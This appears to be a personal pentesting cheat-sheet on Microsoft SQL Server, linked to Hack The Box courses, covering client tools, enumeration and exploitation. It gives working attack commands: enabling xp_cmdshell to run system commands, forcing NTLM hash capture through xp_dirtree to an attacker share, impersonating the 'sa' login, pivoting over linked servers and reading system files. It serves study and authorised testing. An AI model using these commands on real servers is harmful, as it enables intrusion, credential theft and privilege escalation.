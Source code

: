 # MSSQL 🐭

[![footprinting](../../../../cybersecurity/_badges/htb/footprinting.svg)](https://academy.hackthebox.com/course/preview/footprinting)
[![attacking_common_services](../../../../cybersecurity/_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)

<div class="row row-cols-lg-2"><div>

Microsoft SQL Server (MSSQL) is a relational database management system developed by Microsoft. It's often used by developers when building .NET applications. 

SQL Server Management Studio (SSMS) is a graphical client that can be installed along MSSQL or separately. It allows database administrators, developers, and other users to perform various tasks related to SQL Server databases.

🐲 MSSQL default port is 1433 or 2433 <small>(TCP)</small> and 1434 <small>(UDP)</small>.
</div><div>

Common commands:

```sql!
select name from sys.databases    -- list databases
select name from sys.databases where name not in ('master', 'tempdb', 'model', 'msdb');
use db_name;                      -- select a database
-- list the tables in the database
select table_name from information_schema.tables where table_type = 'base table';
-- list the columns of the table "table_name_here"
select column_name, data_type from information_schema.columns where table_name = 'table_name_here';
-- list users (1), and sysadmins (2)
SELECT name, password,sysadmin FROM syslogins
SELECT name FROM sys.server_principals WHERE IS_SRVROLEMEMBER('sysadmin', name) = 1;
```
</div></div>

<hr class="sep-both">

## MSSQL Clients

<div class="row row-cols-lg-2"><div>

#### Windows client - sqlcmd

On Windows, you can use the [sqlcmd](https://learn.microsoft.com/en-us/sql/tools/sqlcmd/sqlcmd-utility?view=sql-server-ver16&tabs=go%2Cwindows&pivots=cs1-bash) utility.

```ps
PS> # -E == Windows Auth | -Q == Query
PS> sqlcmd -E -Q "select name from sys.databases"
PS> sqlcmd -E -i query.sql
PS> sqlcmd -S server_name -U sa -P password [...]
```

If [WMI (DCOM)](/operating-systems/networking/protocols/dcom.md) is available, from a Linux host, you can access `sqlcmd` after popping a powershell:

```shell!
$ impacket-wmiexec username:password@IP -shell-type powershell
```
</div><div>

#### Linux client - sqlsh

You can use [sqlsh](https://en.wikipedia.org/wiki/Sqsh) on Linux.

```shell!
$ sqsh -S IP -U 'username' -P 'password' -h
$ sqsh -S IP -U '.\\username' -P 'password' -h
1> some query
2> go
```

#### Linux client - impacket

You can alternatively use [mssqlclient](/operating-systems/networking/protocols/tools/impacket.md#mssqlclient).

```shell!
$ impacket-mssqlclient username@IP -windows-auth
$ impacket-mssqlclient username:password@IP -windows-auth
```

The SQL Server might user Windows Authentication or Username/Password Authentication. Use or remove`-windows-auth` accordingly.
</div></div>


<hr class="sep-both">

## MSSQL Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

#### Enumeration

* We can use [nmap](/cybersecurity/red-team/tools/scanners/ports/nmap.md) to run scripts

```shell!
$ nmap -sC -sV --script "*ms-sql*" -p 1433 IP
```

* Look for interesting [Metasploit](/cybersecurity/red-team/tools/frameworks/metasploit/index.md) modules.

```shell!
mfs6> search mssql/
```

#### FootHold

[![attacking_common_services](../../../../cybersecurity/_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)

* You can use [Metasploit](/cybersecurity/red-team/tools/frameworks/metasploit/index.md) to XXX.

```shell!
mfs6> use mssql_enum_sql_logins
mfs6> set RHOSTS IP
mfs6> set USERNAME username
mfs6> set PASSWORD password
mfs6> set USE_WINDOWS_AUTHENT true
mfs6> run
```

#### Exploitation - Part I

[![attacking_common_services](../../../../cybersecurity/_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)

* [`xp_cmdshell`](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16) can be used to run commands. It's disabled by default. The command is runs with the same permissions as the server.

```sql!
-- [EXECUTE] sp_configure 'show advanced options', 1
-- RECONFIGURE
-- [EXECUTE] sp_configure 'xp_cmdshell', 1
-- RECONFIGURE
xp_cmdshell 'whoami'
```

Note that you can use `enable_xp_cmdshell` in `impacket-mssqlclient`.

* We can steal hashes by setting up a [responder](/cybersecurity/red-team/_knowledge/topics/request_grabber.md#responder)

```sql!
EXEC master..xp_dirtree '\\IP\share\'
EXEC master..xp_subdirs '\\IP\share\'
```

* We may be able to impersonate users:

```sql!
-- list users we can impersonate
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
-- impersonate user 'sa'
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER; SELECT IS_SRVROLEMEMBER('sysadmin')
REVERT # cancel impersonation
```
</div><div>

#### Exploitation - Part II

* Extended Store Procedures
* CLR Assemblies
* SQL Server Agent Jobs
* External Scripts
* `xp_regwrite` can be used to create registry entries
* User Defined Functions in C/C++ ([ex](https://github.com/mysqludf/lib_mysqludf_sys))

#### Lateral Movement

[![attacking_common_services](../../../../cybersecurity/_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)

The current server may be linked to other servers. If we compromise it, we may be able to run SQL queries on linked servers.

* List Linked Servers

```sql!
SELECT srvname, isremote FROM sysservers
```

* Execute a SQL Query on a Linked Server

```sql!
EXEC('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [your_target_here]
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [your_target_here]
```

#### Additional Notes

* If installed, look for saved credentials in SSMS

* The services often runs as `NT SERVICE\MSSQLSERVER`

* By default, encryption is not enforced when attempting to connect.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* Try running the tool as administrator
* HeidiSQL, SQLPro, mssql-cli
* [System Databases](https://learn.microsoft.com/en-us/sql/relational-databases/databases/system-databases?view=sql-server-ver15)

```sql!
SELECT name FROM master.dbo.sysdatabases
SELECT table_name FROM xxx.INFORMATION_SCHEMA.TABLES
```
</div><div>

Write files

```sql!
-- enable to write
sp_configure 'show advanced options', 1
RECONFIGURE
sp_configure 'Ole Automation Procedures', 1
RECONFIGURE
-- use it...
-- can read any file
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
```

SSMS

* File > New > Query with current connection
* Press execute to run the file
* Need to add `GO`?
</div></div>